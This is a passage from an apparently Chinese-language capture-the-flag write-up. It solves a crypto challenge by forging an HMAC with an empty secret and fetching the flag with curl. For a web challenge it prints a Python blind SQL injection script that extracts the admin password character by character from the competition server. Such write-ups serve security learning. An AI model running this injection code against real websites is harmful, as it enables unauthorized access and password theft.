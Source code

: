 ## 0x03 crypto150

* * *

下面那个长的像拉长的 E 的东西是

```
\u0395 
```

也就是说：

```
HMAC_SECRET = '' 
```

用 python：

```
In [76]: hmac.new('','testuser/flag.txt',hashlib.sha256).hexdigest()
Out[76]: '4a332c7f27909f85a529393cea72301393f84cf5908aa2538137776f78624db4'
DeAdCaT___$ curl https://wildwildweb.fluxfingers.net:1409/files/testuser/flag.txt/4a332c7f27909f85a529393cea72301393f84cf5908aa2538137776f78624db4
flag{unicode_stego_is_best_stego}

```

## 0x04 Web 200 Killy The Bit

* * *

> Category: Web
> 
> Points: 200
> 
> Author: understrich
> 
> Description: Killy the Bit is one of the dangerous kittens of the wild west. He already flipped bits in most of the states and recently hacked the Royal Bank of Fluxembourg (https://wildwildweb.fluxfingers.net:1424/). All customer of the bank are now advised to change their password for the next release of the bank’s website which will be launched on the 23.10.2014 10:01 CEST. Killy the Bit stands in your debt and sent the following link https://wildwildweb.fluxfingers.net:1424/index.phps. Can you break the password generation process in order to get access to the admin account? Hint: The challenge won’t actually send emails — just concentrate on the website! Hint: The password’s column name is passwd. Hint: Blind SQLi is not a good solution. You can get the correct and complete flag with one single request!

狗我比较弱，用的盲注：

```
import requests

def binary_sqli(left, right, index):
    while 1:
        mid = (left + right)/2
        if mid == left:
            print chr(mid)
            return chr(mid)
            break
        payload = "' union select name,email from user where name = if(ascii(substr((select passwd from user where name='admin'),%s,1))<%s,'admin','root')%%23" % (str(index), str(mid))
        url = 'https://wildwildweb.fluxfingers.net:1424/?name=' + payload + '&submit=Generate'
        r = requests.get(url)
        tmp = r.text
        if len(tmp) < 480:
            right = mid
        else:
            left = mid
```